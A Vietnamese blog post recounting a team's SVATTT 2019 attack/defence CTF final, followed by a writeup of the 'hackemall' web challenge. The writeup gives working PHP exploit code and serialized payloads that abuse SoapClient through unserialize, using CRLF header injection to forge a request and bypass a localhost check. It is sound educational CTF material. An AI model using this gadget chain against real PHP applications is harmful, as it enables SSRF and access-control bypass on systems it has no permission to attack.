# Chuyện đi thi
Cuộc thi cũng đã kết thúc được 2 ngày rồi. Nay mình ngồi gõ mấy dòng coi như để lưu lại một kỉ niệm khá vui mà cũng khá tiếc...  
Buổi sáng trước khi thi mình phải dậy sớm đi học thể dục rồi mới đi thi được :'( Lý do mình không thể nghỉ được là vì trước đó đã nghỉ quá nhiều, nghỉ thêm buổi nữa là lại được tập thể dục thêm kì nữa :'( Cơ mà học xong đến nơi thi thì vẫn được ngồi nghỉ ngơi chuẩn bị thêm gần 2 tiếng nữa cuộc thi mới bắt đầu 😌  
Cuộc thi được tổ chức theo hình thức attack/defend. Đây là lần đầu tiên mình vào được chung kết một cuộc thi onsite lại chơi kiểu atk/def nên cũng khá bỡ ngỡ và thích thú :v Cụ thể cách thi như thế này:  
Mỗi đội được BTC cấp 1 con server chạy các dịch vụ giống như kiểu 1 bài jeopardy và một con proxy đứng trước con server, traffic đến các service sẽ route qua con proxy. BTC không cho các đội control con server mà cho quyền root con proxy của đội. Như vậy theo mình thấy cách tiếp cận để attack là khá giống khi chơi các giải CTF bình thường, nếu bài cho source thì sẽ để trên scroreboard, còn để defend sẽ dựa vào việc monitor traffic qua con proxy để filter, không phải bằng cách vá lỗi chương trình. Đây là hình minh họa cách setup của BTC:  



Theo như kế hoạch dự định thì team mình sẽ thay thế luôn cái cơ chế forward do BTC cài đặt trên proxy bằng cái [portforwarder](https://github.com/Q5Ca/simple-portforwarder) đã code ở nhà để có thể monitor cũng như control traffic tốt hơn. Thế nhưng mình và người a cùng tem đã mắc một sai lầm đó là sử dụng lệnh `iptables -L` để tìm rule forward của BTC, và cả buổi đã không tìm thấy để tắt nó đi :'( Nguyên nhân thì đến sau khi thi một người anh ở UET nói mình mới biết, là do cái rule đó nằm ở chain PREROUTING và dùng -L không nó chỉ list chain INPUT. Trước đó mình đã thử forward traffic bằng iptables một lần rồi, cách đặt rule cũng y như vậy mà suốt thời gian thi lại quên mất.  

  

Ngoài chuyện đó ra thì quá trình thi của team mình diễn ra như sau: Sau khi cuộc thi bắt đầu một khoảng thời gian thì thằng bạn cùng team bảo nó có hướng bài crypto và đã ra đoạn SVATTT trong flag, sau đó một khoảng thời gian nữa thì nó ra được full flag thật. Và đó cũng là bài giúp team mình ghi phần lớn số điểm trong cuộc thi. Có thể nói thanh niên lại một lần nữa gank tem 🙏  
Một vài round đầu sau khi ra bài đó thì team mình chỉ attack và submit flag được một số team do code tool tự động bị lỗi, 2 thanh niên trong team ngồi exploit bằng tay và copy paste để submit flag. Sau khi fix được lỗi thì tool tự động chạy khá ngon (một số flag lấy được nhưng submit lại không được, hình như là do lúc đó là round mới và con bot đổi flag chưa đổi xong). Team mình dần vươn lên top 2 vào tầm buổi trưa. Sau đó thì cứ mỗi round mới team mình lại chạy tool auto attack 2 3 lần và bám trụ được trong top 2 một thời gian khá lâu. Bên cạnh đó team mình còn thịt được 2 bài jeo, ăn được thêm 40000 điểm nữa.  
Những tưởng tình hình sẽ tiếp tục khả quan thì đến giai đoạn cuối cuộc thi, sai lầm kể lúc trước bắt đầu bộc phát tác hại. Team mình không chặn được các đợt tấn công lại mất khá nhiều thời gian để build lại payload do các đội khác attack cộng với service của team mình thỉnh thoảng lại nghoẻo mà mình không biết lý do tại sao. Kết quả team mình cứ dần trôi xuống trong sự buồn đau và bất lực không biết phải làm gì 😭 và kết thúc ở vị trí thứ 6 trên scoreboard attack defend. Cộng với điểm phần jeopardy nữa thì chung cuộc team mình đứng thứ 4.  
Về phần web thì trong cuộc thi có một bài 1 bài dạng atk/def và 2 bài dạng jeopardy. Lúc bắt đầu mình lao vào làm bài atk/def, đoán hướng của nó là race condition nhưng buổi sáng ngồi race mãi lại k được. (Updated: sau khi đọc [writeup](https://github.com/vinhjaxt/CTF-writeups/issues/1) của a @vinhjaxt thì hóa ra không race được là do chall bị config sai 😢 ) Đến trưa thì bài này đóng lại nên mình quay ra ngồi làm jeopardy. Nhưng lúc đó thật sự là không tập trung nổi vì cái vấn đề monitor vẫn chưa được giải quyết, có lúc team mình còn tưởng là dùng ssh tunnel để forward @@ Đến lúc ăn trưa xong thì thấy team vẫn giữ được vị trí khá ổn nên mình tạm gác vấn đề đấy lại và tập trung xem bài hackemall và đã giải được. Sau khi giải được tâm trạng mình lúc đó khá là vui. Sau đó một thời gian ngắn thì các đội đã giải được bài `HelloVietNam` và đập nhau loạn xạ, team mình bị đập khá mạnh. Mình có bắt được payload nhưng lại mất khá nhiều thời gian để phân tích và đến những phút cuối của cuộc thi mới build lại thành công và chỉ kịp attack được mỗi một đội.  
Dù sao thì đây cũng là một kỉ niệm đáng nhớ với cả team, có thể coi là động lực để bọn mình tiếp tục sống và làm việc với đam mê. Thay mặt cả team (mặc dù mình không phải leader), mình, em xin gửi lời cảm ơn chân thành đến BTC vì một cuộc thi bổ ích và những challenge thú vị. GGWP everyones 💖 

# writeup bài hackemall
Tóm tắt sơ qua bài này là về kĩ thuật để SSRF qua unserialize. Điểm đặc biệt là ta sẽ sử dụng một class có sẵn trong PHP (cần cài thêm extension) chứ không phải trong code của ứng dụng. Khi mình viết writeup này thì server đã đóng rồi, nên mình đã xin [source](../archives/SVATTT2019-final/nanana.zip) từ tác giả để dựng lại (pass: tsu1234).  
Khi tiếp cận bài này thì theo kinh nghiệm, việc đầu tiên mình làm là dạo một vòng qua ứng dụng, dùng thử các chức năng của nó để xem có j bất thường không. Đã từng có bài ctf có cho source và mình đã tìm ra bug luôn khi blackbox, nếu ngồi đọc cả mớ code của nó thì chắc sẽ mất nhiều thời gian hơn để tìm ra 😛  
Về bài `hackemall` này thì cơ bản có các chức năng chính để ta có thể bắt pokemon với một xác suất bắt thành công nào đó.  

  

Sau khi nghịch một lúc thì mình check trong burp và phát hiện ra cái cookie khả nghi có dạng object serialize. Đến đây thì mình đoán chắc rằng bài này sẽ liên quan đến deserialize rồi :v  

   

Sau đó mình thử bắt một vài lần bằng cách ấn `USE POKE BALL` thì thấy bung ra source code. 😙    

  

Đọc source thì mình nhận thấy để lấy flag thì cần dùng đến `master_ball`  
```php
  function use_master_ball()
  {
      $this->name = htmlentities($this->name);
      $pkm = htmlentities($_POST['pokemon']);
      if($_SESSION['master_ball']>0)
      {
        $_SESSION['master_ball']-=1;
        if($_POST['pokemon']==="Flag")
        {
          die('Captured Flag: '. $GLOBALS['flag']);
        }
        else
        {
          die($this->name. ' captured '.$pkm.'! Cool trainer!!!! Adventure <a href="index.php">more</a>');
        }
      }
      else
      {
        die('No Master Ball!!! Trainer '. $this->name. ' should take some ball <a href="get_more_ball.php">here</a>');
      }
  }
```
Nhưng ban đầu thì ta không có `master_ball` nào mà chỉ được cho 5 poke ball thôi :'(  
```php
if (!isset($_SESSION['poke_ball']) or !isset($_SESSION['master_ball']))
{
    $_SESSION['poke_ball'] = 5;
    $_SESSION['master_ball'] = 0;
}
```
Để lấy được `master_ball` thì sau khi mình dùng hết `poke_ball` thì thấy link này   

  

  

Như vậy để lấy `master_ball` thì cần pass được cái check `$_SERVER["REMOTE_ADDR"]==="127.0.0.1" or $_SERVER["REMOTE_ADDR"]==="::1"`. Mình có thử dùng header `X-Forwarded-For` và một kĩ thuật khác khá mới là [Abusing HTTP hop-by-hop request headers](https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers) nhưng không thành công. Cũng hợp lý mà vì nếu thành công thì hóa ra cái cookie khả nghi kia lại không để làm gì à :v  
Check trong code thì mình thấy cái cookie được unserialize thật  

  

Có `unserialize` và cần SSRF 🤔 Do đã từng đọc trong slide [này](https://2018.zeronights.ru/wp-content/uploads/materials/9%20ZN2018%20WV%20-%20PHP%20unserialize.pdf) nên mình nghĩ ngay đến gadget dùng method `__call` của `SoapClient`. Điều kiện để có thể exploit được là:
- Server phải cài extension soap thì mới có class SoapClient
```
apt install php-soap
```
- Ứng dụng phải gọi một method của object unserialize ra mà cái method đó lại không được định nghĩa trong SoapClient. Cái này vì ta trigger bằng `__call` mà định nghĩa của nó như thế [này](https://www.php.net/manual/en/language.oop5.overloading.php#object.call).  
> __call() is triggered when invoking inaccessible methods in an object context.  

Điều kiện này đã được thỏa mãn vì trong code ta có thể gọi `use_poke_ball` qua đoạn này  
```php
if(isset($_POST['poke_ball']) && isset($_POST['pokemon']) && !empty($_POST['pokemon']))
{
    $trainer->use_poke_ball();
}
```
Mình google payload và tham khảo payload ở [đây](https://xz.aliyun.com/t/6050) test thử
```php
<?php
$o = new SoapClient(null,array('location'=>'http://q5ca0.free.beeceptor.com/abc','uri'=>'cc'));
$o->lol();
```
Lưu ý để build payload theo cách này thì máy bạn cũng cài php-soap rồi. Chắc có thể build kiểu khai báo mới class SoapClient nhưng mình chưa thử :v Chạy thử trên local thì mình xác nhận có request gửi lên, serialize và urlencode lại r test trên server xem:  
```php
echo urlencode(serialize($o));
//O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A2%3A%22cc%22%3Bs%3A8%3A%22location%22%3Bs%3A35%3A%22http%3A%2F%2Fq5ca0.free.beeceptor.com%2Fabc%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

  

  

Ngon rồi có request, vậy là sure kèo mình đang đi đúng hướng. Nhưng để SSRF được để lấy master_ball thì còn một khó khăn này: Xem xét kĩ reuqest dùng SoapClient gửi lên thì nó trông như sau  

  

Để lấy được master_ball thì ta không chỉ cần control được data để thành `ball=master_ball` mà còn phải sửa được `Content-Type` thành `application/x-www-form-urlencoded` vì hiện giờ nó là `text/xml; charset=utf-8`, PHP sẽ không cho data vào `$_POST`  
May mắn là ta có thể inject CRLF vào request từ SoapClient. SoapClient có thuộc tính `user_agent` để đặt giá trị của header `User-Agent` trong request. Và ta có thể inject được vào như thế này :v  
```php
<?php
$o = new SoapClient(null,array('location'=>'http://localhost:4444/abc','uri'=>'cc', 'user_agent' => "a\r\nanother: header"));
$o->lol();
```

  

Header `User-Agent` lại ở trên `Content-Type` nên việc ghi đè là hoàn toàn có thể :v  
Tóm lại mình gen payload để lấy master_ball như sau: Lưu ý là do số `master_ball` lưu trong `$_SESSION` nên cần thêm cookie `PHPSESSID` để định danh cho session ta muốn lấy `master_ball`
```php
<?php
$data = "ball=master_ball";
$o = new SoapClient(null,array('location'=>'http://localhost/ctf/svattt/get_more_ball.php','uri'=>'cc', 'user_agent' => "a\r\nCookie: PHPSESSID=a9pgltk0cp2h3tpat8p7pdvm66\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length:".(string)strlen($data)."\r\n\r\n".$data."\r\n"));
// $o->lol();
echo urlencode(serialize($o));
// O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A2%3A%22cc%22%3Bs%3A8%3A%22location%22%3Bs%3A45%3A%22http%3A%2F%2Flocalhost%2Fctf%2Fsvattt%2Fget_more_ball.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A137%3A%22a%0D%0ACookie%3A+PHPSESSID%3Da9pgltk0cp2h3tpat8p7pdvm66%0D%0AContent-Type%3A+application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A16%0D%0A%0D%0Aball%3Dmaster_ball%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```
Submit lên và đợi một lúc ...  

  

Check lại và ta đã có 1 master_ball 😍  

  

Lấy flag thôi :v  

  

Bên cạnh đó bạn cũng có thể inject CRLF vào `uri` và tạo một request mới được sau request ban đầu. Chi tiết cách này bạn xem ở [writeup](https://youtu.be/oTlXtBgDlSo) của chính tác giả nhé :D  
Thú thật mình cũng ấp ủ kĩ thuật khá lâu rồi, hôm thi có bài này mới dc áp dụng thực tế :v Thanks tác giả @tsug0d 